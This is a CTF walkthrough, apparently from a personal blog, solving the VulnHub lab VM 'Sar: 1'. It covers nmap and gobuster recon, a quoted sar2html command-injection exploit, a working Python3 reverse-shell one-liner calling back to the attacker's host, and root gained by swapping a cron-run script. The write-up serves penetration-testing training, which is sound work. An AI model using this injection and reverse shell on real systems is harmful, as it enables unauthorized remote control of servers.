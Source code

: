 
|[Home](/README.md)|[Projects](/projects.md)|[Articles](/articles.md)|[Apophthegm](/apophthegm.md)|[About](/about.md)|

# **Sar: 1**

Sar is an OSCP-Like VM with the intent of gaining experience in the world of penetration testing.  It is a Linux box and released on Feb 15, 2020.

Download : [Sar: 1](https://www.vulnhub.com/entry/sar-1,425/)  
Format   : VirtualBox (OVA)  
DHCP     : Enabled  

Since the ```netdiscover``` not working properly at my Kali 2020.1, I use ```nmap``` instead to get the IP address of the Sar:1 box which is on ```10.0.2.18```.  My Kali box is on ```10.0.2.24```.

```bash
samiux@kali:~$ nmap 10.0.2.0/24
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-09 22:17 HKT
Nmap scan report for 10.0.2.1
Host is up (0.00033s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
53/tcp open  domain

Nmap scan report for 10.0.2.2
Host is up (0.0011s latency).
Not shown: 998 closed ports
PORT    STATE SERVICE
22/tcp  open  ssh
631/tcp open  ipp

Nmap scan report for 10.0.2.18
Host is up (0.0012s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
80/tcp open  http

Nmap scan report for 10.0.2.24
Host is up (0.0015s latency).
All 1000 scanned ports on 10.0.2.24 are closed

Nmap done: 256 IP addresses (4 hosts up) scanned in 3.37 seconds
```

Run ```nmap``` for the port scan on the Sar:1 box.

```bash
samiux@kali:~$ nmap -A -p- 10.0.2.18
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-09 22:19 HKT
Nmap scan report for 10.0.2.18
Host is up (0.00094s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.74 seconds
```

The scan reports only port 80 is opened.  Thus, ```gobuster``` is used for the directories of the box.

```bash
samiux@kali:~$ gobuster dir -u http://10.0.2.18 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.0.2.18
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,html,txt
[+] Timeout:        10s
===============================================================
2020/03/09 22:20:54 Starting gobuster
===============================================================
/index.html (Status: 200)
/robots.txt (Status: 200)
/phpinfo.php (Status: 200)
/server-status (Status: 403)
===============================================================
2020/03/09 22:26:48 Finished
===============================================================
```

Open the ```Firefox``` to browse on the ```10.0.2.18```.  Then browse ```robots.txt``` also.

[](https://raw.githubusercontent.com/samiux/images/master/sar1/sar-001.png)  

[](https://raw.githubusercontent.com/samiux/images/master/sar1/sar-002.png)  

The ```robots.txt``` shows ```sar2HTML```.  Browse to it and it shows sar2html application.

[](https://raw.githubusercontent.com/samiux/images/master/sar1/sar-003.png)  

Conduct a ```searchsploit``` on Kali box.

[](https://raw.githubusercontent.com/samiux/images/master/sar1/sar-004.png)  

The content of the result is :

```bash
# Exploit Title: sar2html Remote Code Execution
# Date: 01/08/2019
# Exploit Author: Furkan KAYAPINAR
# Vendor Homepage:https://github.com/cemtan/sar2html 
# Software Link: https://sourceforge.net/projects/sar2html/
# Version: 3.2.1
# Tested on: Centos 7

In web application you will see index.php?plot url extension.

http://<ipaddr>/index.php?plot=;<command-here> will execute
the command you entered. After command injection press "select # host" then your command's
output will appear bottom side of the scroll screen.
```

Click on ```NEW``` on the left hand side and it shows the url is ```http://10.0.2.18/sar2HTML/index.php?plot=NEW```.

[](https://raw.githubusercontent.com/samiux/images/master/sar1/sar-005.png)  

Test it with ```;id``` and found it can execute command ```id```.

[](https://raw.githubusercontent.com/samiux/images/master/sar1/sar-006.png)  

After several tries and errors, it is confirmed that ```python3``` and ```bash``` are installed on the box.

[](https://raw.githubusercontent.com/samiux/images/master/sar1/sar-007.png)  

## **Reverse shell and user.txt**

Places the following python3 command on the url.

```bash
;python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.2.24",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

And run the listener at another terminal.

```bash
nc -lvp 4444
```

[](https://raw.githubusercontent.com/samiux/images/master/sar1/sar-008.png)  

I found out that ```finally.sh``` and ```write.sh``` at ```/var/www/html``` of the box.

[](https://raw.githubusercontent.com/samiux/images/master/sar1/sar-009.png)  

[](https://raw.githubusercontent.com/samiux/images/master/sar1/sar-010.png)  

After a search on ```/home/love/Desktop```, I found the ```user.txt``` key.

[](https://raw.githubusercontent.com/samiux/images/master/sar1/sar-011.png)  

## **Reverse shell and root.txt**

Back to the ```finally.sh``` and ```write.sh```.  After a search, I found ```/etc/crontab``` which runs ```finally.sh``` on every 5 minutes.  However, I cannot see ```gateway``` at ```/tmp``` after 5 minutes.

After thinking of a while, I decided to replace the ```write.sh``` with my own ```write.sh```.  I prepared the ```write.sh``` at ```/var/www/html``` of my Kali box and then starts the Apache2.

[](https://raw.githubusercontent.com/samiux/images/master/sar1/sar-012.png)  

Download my own copy of ```write.sh``` to the box and makes it executable.  Prepare another listener at port 7777 on Kali.

[](https://raw.githubusercontent.com/samiux/images/master/sar1/sar-013.png)  

After 5 minutes or so, I got the reverse shell and the ```root.txt``` is found on ```/root```.

[](https://raw.githubusercontent.com/samiux/images/master/sar1/sar-014.png)  

Root is dancing!

## **Final thought**

This Capture The Flag (CTF) is based on a realistic vulnerability.  To get the ```root.txt``` is however a little bit tricky.  Anyway, it is a very good box to play with.  Recommended.

Samiux
OSCE  OSCP  OSWP
Mar 10, 2020, Hong Kong, China

|[Home](/README.md)|[Projects](/projects.md)|[Articles](/articles.md)|[Apophthegm](/apophthegm.md)|[About](/about.md)|
